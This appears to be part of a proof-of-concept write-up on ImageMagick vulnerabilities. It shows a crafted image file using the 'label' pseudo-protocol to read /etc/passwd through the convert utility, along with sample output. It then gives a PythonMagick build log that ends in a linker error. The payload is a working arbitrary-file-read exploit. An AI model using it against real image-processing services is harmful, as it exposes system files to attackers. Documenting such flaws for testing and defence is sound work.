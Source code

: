 In a similar vain to the insufficient shell character filtering potentially enabling remote code execution, ImageMagicks `label` psudeo protocol, opens a whole other can of worms, making it possible to read the contents of any file. The below example file input payload, when fed into the `convert` utility, will literally read `/etc/passwd`, and render its contents in the output `out.png`.


The input image payload `read.jpg`:

    push graphic-context
    viewbox 0 0 640 480
    image over 0,0 0,0 'label:@/etc/passwd'
    popgraphic-context

Invoking ImageMagick's `convert` utility to take the image as input, will convert and render it as another output:

    convert read.jpg out.png 2>/dev/null 1>/dev/null

Examining the output rendered file:

    root@kali:~/git/PoCs# cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    ...





## Web application




### PythonMagick

A custom build of the `PythonMagick` Python bindings for ImageMagick.


root@kali:~/Downloads/PythonMagick-0.9.19# export PKG_CONFIG_PATH=/root/Downloads/ImageMagick-6.9.2-10/Magick++/lib:/root/Downloads/ImageMagick-6.9.2-10/magick:/root/Downloads/ImageMagick-6.9.2-10/wand


root@kali:~/Downloads/PythonMagick-0.9.19# ./configure CPPFLAGS="-I/root/Downloads/ImageMagick-6.9.2-10/Magick++/lib -I/root/Downloads/ImageMagick-6.9.2-10 -I/root/Downloads/ImageMagick-6.9.2-10/magick" --with-python-min-version=3.5


root@kali:~/Downloads/PythonMagick-0.9.19# pkgconf --libs Magick++-6.Q16
-L/usr/local/lib -lMagick++-6.Q16 -lMagickWand-6.Q16 -lMagickCore-6.Q16 

OK, kick off the compilation work:

    root@kali:~/Downloads/PythonMagick-0.9.19# make 
    make[1]: Entering directory '/root/Downloads/PythonMagick-0.9.19/pythonmagick_src'
      CXX      libpymagick_la-_DrawableFillRule.lo
      CXX      libpymagick_la-_PathMovetoAbs.lo
      CXX      libpymagick_la-_DrawableText.lo
      CXX      libpymagick_la-_Blob.lo
      ...
    make[1]: Entering directory '/root/Downloads/PythonMagick-0.9.19'
      CXXLD    _PythonMagick.la
    /usr/bin/ld: cannot find -lMagick++-6.Q16
    /usr/bin/ld: /usr/local/lib/libMagickWand-6.Q16.so: error adding symbols: file in wrong format
    collect2: error: ld returned 1 exit status
    make[1]: *** [Makefile:555: _PythonMagick.la] Error 1
